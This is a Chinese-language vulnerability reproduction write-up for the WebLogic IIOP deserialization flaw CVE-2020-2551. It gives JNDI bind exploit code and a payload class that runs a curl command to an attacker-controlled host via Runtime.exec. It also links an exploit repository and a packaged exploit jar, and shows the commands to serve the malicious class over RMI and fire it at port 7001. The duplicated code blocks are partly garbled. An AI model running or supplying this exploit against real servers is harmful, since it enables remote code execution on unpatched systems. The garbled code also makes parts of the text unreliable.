



# （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce

> 原文：[https://www.zhihuifly.com/t/topic/3232](https://www.zhihuifly.com/t/topic/3232)

## （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

```
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);

Hashtable<String, String> env = new Hashtable<String, String>();

// add wlsserver/server/lib/weblogic.jar to classpath,else will error.

env.put(“java.naming.factory.initial”, “weblogic.jndi.WLInitialContextFactory”);

env.put(“java.naming.provider.url”, rhost);

Context context = new InitialContext(env);

// get Object to Deserialize

JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();

jtaTransactionManager.setUserTransactionName(rmiurl); `Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);` 
```

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**


此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**



跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject



然后通过反射调用**JtaTransactionManager**的**readObject()**跟进


到此之后就是Weblogic的CVE-2018-3191 spring JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**


如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进


此时**lookup()**参数可控


**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

```
https://github.com/ianxtianxt/CVE-2020-2551 
```

**打包好的jar包**

```
https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip 
```

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

```
package payload;

import java.io.IOException;

public class exp {

```
public exp() {
    String cmd = "curl http://172.16.1.1/success";
    try {
        Runtime.getRuntime().exec(cmd).getInputStream();
    } catch (IOException e) {
        e.printStackTrace();
    }
} 
```

} 
```

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80 
```

命令行运行jar包

```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp 
```

实际效果如图



## 参考链接

> https://y4er.com/post/weblogic-cve-2020-2551/